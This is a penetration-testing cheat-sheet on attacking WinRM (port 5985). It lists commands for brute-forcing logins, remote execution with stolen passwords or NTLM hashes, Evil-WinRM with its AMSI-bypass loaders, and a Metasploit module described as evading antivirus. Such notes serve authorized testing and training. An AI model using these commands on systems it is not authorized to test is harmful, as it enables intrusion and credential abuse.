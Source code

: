 ```yaml
---
description: >-
  Windows Remote Management (WinRM) is the Microsoft implementation of
  WS-Management Protocol, a standard Simple Object Access Protocol (SOAP)-based.
  Usaully run on port 5985.
---
```


# 5985 - WinRM

## Info

WinRM uses the PSRemoting \(PowerShell remote\) to login to a host and execute commands.

You can enable WinRM by running `Enable-PSRemoting`

By default WinRM uses port 5985 for sending traffic over HTTP \(But it's still encrypted\), and port 5986 for SSL.

If you can make a HTTP request \(GET\) to `/wsman` and you get 200 back, WinRM  is enabled \(on port 5985\).

### Add User to winrm group

```text
net localgroup "Remote Management Users" /add bowen
```

## Bruteforce login

### Metasploit

The winrm\_login module is a standard Metasploit login scanner to bruteforce passwords.

`use auxiliary/scanner/winrm/winrm_login`

### Crackmapexec

`cme winrm 192.168.1.0/24 -u userfile -p passwordfile`

## Login from windows

### Powershell

From a powershell command prompt:

```text
$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force 
$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass) 
Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
```

###  Winrs

Winrs.exe is a built-in command line tool that allows for the execution of remote commands over WinRm with a properly credentialed user.

```text
winrs -r:corp-dc "whoami /all"
```

###  **Winrm.cmd**

Command–line tool for system management is implemented in a Visual Basic Scripting Edition file \(Winrm.vbs\) written using the WinRM scripting API.

```text
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad"} -r:corp-dc
```

## Login from Linux

### Ruby Script

A quick and dirty script - use  [Alamot’s Ruby script](https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb)  

Remember to change the username and password 

### Evil-WinRM

A comprehensive winrm shell

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Install:

```text
sudo apt install ruby-dev build-essential
sudo gem install evil-winrm
```

You can also execute built in 'Bypass-AMSI', 'DLL-loader', 'Dount Loader' and 'Invoke Binary' straight from the shell by just typing `menu` in the shell

We can also load powershell scripts using the `-s` option and providing a folder with scripts, and then just calling the script from the shell \(example typing `powerup.ps` \)and then when we go to the menu it will show the functions from that script.

**Note:** Evil-WINRM uses **Invoke-Expression** to execute command - therefor if you're in some kind of constrained language mode that isn’t allowing Invoke-Expression you will get errors.

Like this:

```text

*Evil-WinRM* PS The term 'Invoke-Expression' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (Invoke-Expression:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException> 
```

### CrackMapexec

Here’s an example of using CrackMapExec winrm method as local Administrator with a clear text password:

`crackmapexec winrm -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183` 

Here’s example using a NTLM hash:

`crackmapexec winrm -d . -u Administrator -H aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 -x "whoami" 192.168.204.183`

### Metasploit

WinRM Script Exec exploit module can obtain a shell without triggering an anti-virus solution, in certain cases. This module has two different payload delivery methods. Its primary delivery method is through the use of PowerShell 2.0. The module checks to see if PowerShell 2.0 is available on the system. It then tries to enable unrestricted script execution, an important step because PowerShell does not execute unsigned script files by default. If either of these checks fail, it will default to the VBS CmdStager payload method, otherwise it will use our Powershell 2.0 method.

`use exploit/windows/winrm/winrm_script_exec`

## Login from Windows 

This can also be done using `PowerShell` for Linux \(apt install pwsh _or_  apt install powershell\)

```text
PS /> $pass = ConvertTo-SecureString 'kittycat1' -asplaintext -force
PS /> $cred = New-Object System.Management.Automation.PSCredential('htb\k.svensson', $pass)
PS /> Enter-PSSession -Computer 10.10.10.210 -credential $cred -Authentication Negotiate
[10.10.10.210]: PS>
```

If you get a error `Unspecified GSS failure` install gss-ntlmssp using apt.


